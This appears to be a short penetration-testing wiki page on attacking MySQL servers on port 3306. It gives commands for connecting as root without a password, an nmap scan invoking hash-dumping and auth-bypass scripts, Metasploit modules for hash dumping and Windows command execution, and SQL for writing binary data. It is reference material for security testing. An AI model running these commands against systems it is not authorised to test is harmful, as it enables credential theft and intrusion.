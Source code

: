 # 3306 - Pentesting Mysql

## **Basic Information**

**MySQL** is a freely available open source Relational Database Management System \(RDBMS\) that uses Structured Query Language \(**SQL**\).  
_\*\*_From [here](https://www.siteground.com/tutorials/php-mysql/mysql/).

**Default port:** 3306

```text
3306/tcp open  mysql
```

## **Connect**

### **Local**

```bash
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

### Remote

```bash
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

## Enumeration

Some of the enumeration actions require valid credentials

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

### \*\*\*\*[**Brute force**](../brute-force.md#mysql)

## Write any binary data

```bash
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```
